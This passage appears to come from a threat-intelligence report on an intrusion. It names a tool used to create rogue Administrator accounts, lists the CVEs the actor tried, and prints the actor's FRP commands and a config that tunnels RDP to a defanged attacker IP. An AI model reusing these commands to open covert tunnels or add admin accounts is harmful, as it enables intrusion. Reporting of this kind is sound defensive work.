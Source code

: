 `C:\ProgramData\FFICreateAdminUser.exe` - The threat actor leveraged a open source tool developed by Tas9er to create new Administrator accounts

From the Cobalt Strike timelines, we were able to ascertain the threat actor attempted to exploit the below vulnerabilities. 

```
CVE-2024-30088, CVE-2023-28252, CVE-2020-0796, CVE-2023-36802, CVE-2018-8120, CVE-2017-0213, CVE-2022-24521, CVE-2021-36955, CVE-2021-1732, CVE-2022-24481, CVE-2023-23376, CVE-2022-35803, CVE-2021-43226, CVE-2024-35250, CVE-2024-26229, CVE-2024-21338, CVE-2021-1675, CVE-2021-40449

MS13-046, MS16-032, MS15-051
```

## Command & Control

```bash
https://github.com/fatedier/frp/releases/download/v0.36.2/frp_0.36.2_windows_amd64.zip
( echo @echo off echo set COMPAT_LAYER=Win7RTM echo set __COMPAT_LAYER=Win7RTM echo frpc.exe -c frpc.toml ) > run_frpc.bat
type C:\ProgramData\frpc.toml
frpc.exe -c frpc.toml
```

* Threat actor leveraging FRP (Fast Reverse Proxy) client with a config `C:\ProgramData\frpc.toml`:

```
serverAddr = "103.215.77[.]214"
serverPort = 4444

[[proxies]]
name = "rdp7"
type = "tcp"
localPort = 3389
remotePort = 6008
```

The above FRP client will connect to the proxy on `103.215.77[.]214:4444` and tunnel its RDP service to port `6008`

[![2](/assets/images/china/image1.png)](/assets/images/china/image1.png){: .full}
